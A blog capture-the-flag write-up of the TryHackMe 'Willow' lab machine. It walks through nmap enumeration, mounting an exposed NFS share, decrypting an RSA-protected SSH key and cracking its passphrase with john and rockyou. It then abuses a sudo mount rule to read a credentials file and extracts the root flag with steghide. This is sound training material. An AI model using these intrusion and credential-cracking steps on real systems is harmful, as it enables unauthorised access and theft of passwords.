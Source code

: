```yaml
---
layout: default
title : Willow - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 08, 2020**_

[Willow](https://tryhackme.com/room/willow) Writeup

## Nmap Scan :

```
bvr0n@kali:~/CTF/THM/Willow$ nmap -sC -sV 10.10.58.196
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      33045/udp   mountd
|   100005  1,2,3      50247/tcp   mountd
|   100005  1,2,3      53104/udp6  mountd
|   100005  1,2,3      58466/tcp6  mountd
|   100021  1,3,4      35887/udp6  nlockmgr
|   100021  1,3,4      36539/tcp   nlockmgr
|   100021  1,3,4      45263/tcp6  nlockmgr
|   100021  1,3,4      45612/udp   nlockmgr
|   100024  1          42988/tcp   status
|   100024  1          47886/tcp6  status
|   100024  1          53120/udp6  status
|   100024  1          57397/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## RPC Enum :

```
bvr0n@kali:~/CTF/THM/Willow$ sudo showmount -e 10.10.58.196
[sudo] password for bvr0n: 
Export list for 10.10.58.196:
/var/failsafe *
```
Apparently we have a shared folder, Let's mount it :
```
bvr0n@kali:~/CTF/THM/Willow$ sudo mount -t nfs 10.10.170.153:/var/failsafe /mnt/ewf/ -nolock
bvr0n@kali:/mnt/ewf$ cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

## Web Enum :

After visiting the web page we can see a lot of encoded numbers `(HEX)`, When we throw it all in [CyberChef](https://gchq.github.io/CyberChef/) we get this :
```
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
```

Now the shared folder make sens, it's a private key, let's get it!! i grabbed all the numbers after the message we retireved and head here [RSA Calculator](https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html) :

The modulus `N` was `37627` & The modulus `d` was `61527` (from the shared folder).

After grabbing the `RSA_Private_KEY`, now all we need is the password ! CRACKING TIME.

```
bvr0n@kali:~/CTF/THM/Willow$ /usr/share/john/ssh2john.py id_rsa > priv_rsa
bvr0n@kali:~/CTF/THM/Willow$ sudo john priv_rsa --wordlist=/home/bvr0n/Documents/rockyou.txt
[sudo] password for bvr0n: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
**********       (id_rsa)
```

And we got the password for SSH, Let's login as `Willow`.

In the home directory there is a image that contains the flag, Let's get it :
```
willow@willow-tree:~$ cat user.jpg | base64
bvr0n@kali:~/CTF/THM/Willow$ cat b64_image | base64 -d > user.jpg
```
I took the original image and turn it into `base64`, then i created a new file and put it inside and decrypt it.

## Internal Enum :

Looks like we can mount as root without a password :
```
willow@willow-tree:/mnt/creds$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```
I checked the `/dev`, this is where filesystems show up, i noticed a pretty weird one :

```
willow@willow-tree:/dev$ ls
autofs           dri            kmsg                null    shm       
block            fb0            log                 port    snapshot  
btrfs-control    fd             loop-control        ppp     snd       
char             full           mapper              psaux   stderr    
console          fuse           mcelog              ptmx    stdin     
core             ******_******  mem                 p
```
```
willow@willow-tree:/mnt$ sudo mount /dev/******_****** /mnt/creds/
willow@willow-tree:/mnt$ cd /mnt/creds/
willow@willow-tree:/mnt/creds$ cat creds.txt 
root:7QvbvB********
willow:U0ZZJL********
```

And we got ROOT.

For the root flag, i struggled at first but apparently it was inside the image we retireved earlier -_-
```
bvr0n@kali:~/CTF/THM/Willow$ steghide extract -sf user.jpg 
Enter passphrase: 
wrote extracted data to "root.txt".
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
